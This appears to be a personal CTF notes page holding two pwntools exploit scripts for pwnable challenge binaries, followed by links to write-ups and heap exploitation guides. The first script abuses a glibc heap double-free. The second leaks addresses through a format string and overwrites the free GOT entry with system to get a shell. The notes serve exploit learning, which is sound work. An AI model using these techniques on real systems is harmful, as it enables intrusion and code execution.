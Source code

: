 # [0] Blogs
> Note for me.

# [1] Works...

[+] [Google Drive](https://drive.google.com/drive/folders/1Yd3RnKlJunSlAkmUS8o3cVPhGl3GtzmC?usp=share_link) .

[+] [Download folder from git](https://download-directory.github.io/) .

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./vuln")
libc = ELF("./libc.so.6")
context.update(binary=elf, log_level="debug")
p = elf.process()
# gdb.attach(
#     p,
#     """
#     breakrva 0x0E0E
#     breakrva 0x0E1A
#     """,
# )
# Allocate, Free
# p = remote("159.89.203.225", "10003")

def Allocate(size, data):
    p.sendlineafter(b"You Choice:", b"1")
    p.sendlineafter(b"Size :", str(int(size)).encode())
    p.sendafter(b"Data :", data)    
    return

def Free(idx):
    p.sendlineafter(b"You Choice:", b"2")
    p.sendlineafter(b"Index :", str(idx).encode())
    return

# 2 | 2000 | +0x40

Allocate(0x60, p64(0) + p64(0x71))   # 0
Allocate(0x60, p64(0) + p64(0x51))   # 1
Allocate(0x60, p64(0)*3 + p64(0x51)) # 2

Free(1)
Free(0)
Free(1)
# 0x00 + 0x10 = 
Allocate(0x60, b"\x10")
Allocate(0x60, b"a")     
Allocate(0x60, b"a")
Allocate(0x60, b"a")

Free(0)
Allocate(0x60, p64(0x10) + p64(0x101))

Free(6)


p.interactive()

```

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./vuln")
libc = ELF("./libc.so.6")
context.update(binary=elf, log_level="debug")
p = elf.process()
# gdb.attach(
#     p,
#     """
# 	breakrva 0x10AA
#     breakrva 0x10C2
#     breakrva 0x109E
#     breakrva 0x10B6
#     breakrva 0x0E2D
#     """,
# )
# D E N S printf
# p = remote("159.89.203.225", "10002")
# ATTT{e4sy_fmt_str_pa0}
def newNOTE(idx, size, content):
    p.sendlineafter(b"Choice >", b"N")
    p.sendlineafter(b"Index >", str(idx).encode())
    p.sendlineafter(b"Size >", str(int(size)).encode())
    p.sendlineafter(b"Content >", content)    
    return

def deleteNOTE(idx):
    p.sendlineafter(b"Choice >", b"D")
    p.sendlineafter(b"Index >", str(idx).encode())
    return

def showNOTE(idx):
    p.sendlineafter(b"Choice >", b"S")
    p.sendlineafter(b"Index >", str(idx).encode())
    leak = p.recvuntil(b"\n")
    return leak

def editNOTE(idx, content):
    p.sendlineafter(b"Choice >", b"E")
    p.sendlineafter(b"Index >", str(idx).encode())
    p.sendlineafter(b"Content >", content)
    return


newNOTE(0, 0x200, b"%p-" * 20)
newNOTE(1, 0x100, b"B" * 8)
newNOTE(2, 0x100, b"/bin/sh\x00")
deleteNOTE(1)
leak = showNOTE(0)
leak = leak.split(b"-")
elf_leak = int(leak[10].decode(), 16)
libc_leak = int(leak[14].decode(), 16)
stack_ptr = int(leak[16].decode(), 16)

# 15 - libc | 11 - elf 
# 17 - 43
elf.address = elf_leak - 0x10bb
libc.address = libc_leak - 0x21bf7
rsp = stack_ptr - 0x128
log.info("ELF base address:             " + hex(elf.address))
log.info("Leak (__libc_start_main+231): " + hex(libc_leak))
log.info("Libc base address:            " + hex(libc.address))
log.info("rsp:                          " + hex(rsp))

# fix stack ptr
wr = (rsp + 0x68 + 2) & 0xffff
log.info("wr: " + hex(wr))
pl = b""
pl += f"%{wr}c%17$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = tmp >> 16 & 0xff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hhn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

wr = wr - 2
log.info("wr: " + hex(wr))
pl = b""
pl += f"%{wr}c%17$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = tmp & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

# overwrite got free => libc system | para 19
tmp = libc.symbols['system']
tmp = tmp & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%19$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = (tmp + 2) & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = libc.symbols['system']
tmp = tmp >> 16 & 0xff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%19$hhn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

deleteNOTE(2)

p.interactive()

```

> Pwnable.tw

- https://www.taintedbits.com/tags/pwnable-tw/
- https://hackmd.io/@wxrdnx/r1CXaFHdv
- https://drx.home.blog/2019/04/20/pwnable-tw-hacknote/

> TetCTF
 
- `2019` https://d4rkn3ss.medium.com/write-up-for-pwnable-challenges-tetctf-2019-a74eb177518e

> ASCIS - SVATTT

- `2017` https://www.youtube.com/watch?v=_EJQKtpQ0oM
 

>Heap

  * `All view heap teachnique exploit` https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/
  
  * `Heap security check` https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/security_checks

> how2heap 

  * https://hackmd.io/@u1f383/Sy_2pqMAP


> listNOTE-PWNABLE

  * https://uaf.io/tags.html#BCTF-ref

### List video pwnable, exploit, security research, ...

* [BabyTalk#5](https://www.youtube.com/watch?v=94O8wdcvEFM&list=WL&index=249) .

--------------------------------------------------------------------------------


[+] OSCP - https://different-mosquito-965.notion.site/OSCP-ef04a657ca26423d81c1a1fc0b35e147

[+] Java - https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/
